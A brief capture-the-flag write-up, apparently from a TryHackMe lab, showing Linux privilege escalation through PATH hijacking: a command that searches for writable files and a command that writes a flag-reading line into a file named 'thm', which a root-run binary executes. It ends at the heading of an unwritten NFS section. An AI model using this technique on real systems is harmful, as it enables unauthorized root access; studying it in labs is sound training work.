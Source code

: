 # Privilege Escalation: PATH

#### Find the writable file

```bash
find / -writable 2>/dev/null
```

Found it !!

![find.png](../../files/photos/find.png)

#### Now go to the directory and write the code

As it appears test runs thm as a root...

![test](../../files/photos/test.png)

let's add a command to print the flag....

```bash
echo 'cat /home/matt/flag6.txt' > thm
```

![thm.png](../../files/photos/thm.png)

---
# Privilege Escalation: NFS

#### Mounting
